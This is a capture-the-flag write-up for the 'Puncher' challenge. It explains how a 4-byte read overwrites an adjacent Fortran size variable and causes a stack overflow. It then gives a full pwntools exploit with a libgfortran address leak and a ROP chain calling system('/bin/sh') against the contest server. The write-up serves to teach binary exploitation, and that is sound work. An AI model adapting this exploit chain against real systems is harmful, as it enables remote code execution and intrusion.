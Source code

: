 # Puncher

## Challenge description

We're back in the 60s!

## Challenge files

- `chall.f90`: source code of the challenge, written in Fortran
- `puncher`: compiled binary from `chall.f90`
- `libgfortran.so.5`: Fortran library

## About the challenge

The `puncher` program reads lines, and prints the punch card encodings of them.

## The vulnerability

The main function (see below) looks a bit weird: it sets `A = 0`, then checks if `A == 0`, without doing anything with `A` in between. `A` will be later used as a buffer size in `readString(X, A)`, and normally it is set to `64`, which is the same as the length of `X`. If we can somehow modify `A`, then it would result in a buffer overflow.

There are two 2-byte integers next to each other: `A` and `B` (actually there are three, but `C` is not important now). The `readInt` function reads a 4-byte integer, hence we have control over not only `B`, but `A`, too. If we give `2**24+1 == 0x01000001` to the `readInt` function, then it will set `B` to `1` and `A` to `0x100`:

```
0x 0100 0001
  |AAAA|BBBB|
```

Now when the program reaches `readString`, it will read `256` bytes into a `64`-byte buffer: we have a stack buffer overflow.

```
PROGRAM puncher
  IMPLICIT NONE
  CHARACTER(len=64) :: X
  INTEGER(2) :: A,B, C
  A = 0  ! A is set to zero
  B = 0
  write(*,*) 'How many lines do you want to read?'
  CALL readInt(B)
  IF (A==0) THEN  ! Check if A is still zero
    A=64
  END IF
  DO C=1,B
    write(*,*) 'Reading line ', C
    CALL readString(X, A)
    CALL punch(X,A)
  END DO
END PROGRAM
```

## Exploitation

In order to create an exploitation plan, first look at the protections applied to the binary:

- NX enabled: no shellcode
- Stack canary disabled: we can overwrite the return address
- PIE disabled: we have some code that we know the address of

Based on this, we can see that we can use a ROP chain.

The `puncher` binary itself didn't contain any code that we could use to open a shell, but it had some functions that we could use to leak the address of `libgfortran.so.5`. First I wanted to use the imported functions if the Fortran library, but using them to print something is really complicated; a simple `write` in the source code compiles to four different functions being called, so I looked for a simpler solution. I saw that the `punch` function prints the original text before the punch card. However, it has a side effect: it calls `to_upper` on the input, which means that if the address that we want to leak has lowercase letters in it, then we will get the wrong address. We will overcome this issue by trying until we succeed (shouldn't take more than a few tries). I leaked the address of `_gfortran_st_write_done` by calling

```
punch(GOT address of _gfortran_st_write_done, 8)
```

Looking at the binary, we can see that `punch` actually expects an address that points to `A` as the second argument:

```
0x00401273      488b8580fcff.  mov rax, qword [rbp-0x380]  ; A is stored at rbp-0x380
0x0040127a      0fb700         movzx eax, word [rax]
```

This just means that we have to find a place in the `puncher` binary where the number `8` is stored. Luckily, we found such place.

We have to set the first two arguments before calling the function, which are passed in `rdi` and `rsi`. Hence we need some gadgets:

```
0x00402033      5f             pop rdi
0x00402034      c3             ret

0x00402031      5e             pop rsi
0x00402032      415f           pop r15
0x00402034      c3             ret
```

After we call `punch`, we should return to `main`, so that we can give some input again, now with the knowledge of the base address of the Fortran library. Hence the first stage ROP chain looks like this (each entry is 8 bytes):

```
pop rdi gadget
GOT address of _gfortran_st_write_done  ; puts the GOT address into rdi
pop rsi pop r15 gadget
pointer to 8  ; puts a pointer to the number 8 into rsi
0  ; could be anything, it goes into r15
address of punch  ; calls the punch function
address of main  ; jump back to main
```

Now we can send the second stage ROP chain, using the base address of the Fortran library. The Fortran library contains both the string `"/bin/sh"` and an import to `system`, so we can easily open a shell:

```
pop rdi gadget
address of "/bin/sh"
address of system
```

There is one more thing that we need to take care about: we use the overflow in `readString`, and then take control of the program when the main function returns. Between these two events, `punch(X, A)` is called. When we overflow the stack, we overwrite `A` as well. If we put a random value in `A`, we might set it to a really big number, which means a segmentation fault will occur in `punch`, because it will try to read from beyond the bottom of the stack. To avoid this, we just set `A` to zero.

## Exploit script

```python
from pwn import *
import hashlib
from itertools import product

binary = ELF("./puncher")
libgfortran = ELF("./libgfortran.so.5")

def solve_pow(start_string, hash_end):
    for chars in product(string.ascii_letters, repeat=4):
        candidate = start_string + bytes(map(ord, chars))
        m = hashlib.sha256()
        m.update(candidate)
        if m.hexdigest().endswith(hash_end):
            print(f'POW solved: {candidate}')
            return candidate

    return None

if args.LOCAL:
    p = process("./puncher", env={"LD_PRELOAD": libgfortran.path})
else:
    p = connect("challs.m0lecon.it", 2637)
    p.recvuntil("Give me a string starting with ")
    start_string = p.recvuntil(" ")[:-1]
    p.recvuntil('such that its sha256sum ends in ')
    hash_end = p.recvuntil('.')[:-1].decode()
    p.sendline(solve_pow(start_string, hash_end))

p.sendlineafter("How many lines do you want to read?", str(2**24+1))

punch = binary.symbols["punch_"]
st_write_done = binary.got["_gfortran_st_write_done"]
pop_rdi = 0x00402033
pop_rsi_r15 = 0x00402031
address_of_eight = 0x00403330

payload = b'A'*0x40  # the original buffer
payload += b'B'*0xe  # some padding
payload += b'\x00\x00'  # set A to zero
payload += b'C'*0x10  # some padding
payload += b'D'*0x8  # saved RBP

# Here starts the rop chain
payload += p64(pop_rdi)
payload += p64(st_write_done)  # first argument of punch
payload += p64(pop_rsi_r15)
payload += p64(address_of_eight)  # second argument of punch
payload += p64(0)  # just a dummy value that goes into r15
payload += p64(punch)  # call punch
payload += p64(binary.symbols["main"])  # call main

p.sendlineafter("Reading line", payload)

p.recvuntil("_______________________________________________________________")
p.recvuntil("_______________________________________________________________")
p.recvuntil("_______________________________________________________________")

p.recvuntil("| ")
leak = p.recvline()
libgfortran.address = u64(leak[:8]) - libgfortran.symbols["_gfortran_st_write_done"]

print(f"libgfortran base: {hex(libgfortran.address)}")

p.sendlineafter("How many lines do you want to read?", str(2**24+1))

binsh = libgfortran.address + 0x0029c57b
system = libgfortran.symbols["system"]

payload = b'A'*0x40  # the original buffer
payload += b'B'*0xe  # some padding
payload += b'\x00\x00'  # set A to zero
payload += b'C'*0x10  # some padding
payload += b'D'*0x8  # saved RBP

# Here starts the ROP chain
payload += p64(pop_rdi)
payload += p64(binsh)  # first argument of system
payload += p64(system)  # call system

p.sendlineafter("Reading line", payload)

p.interactive()
```
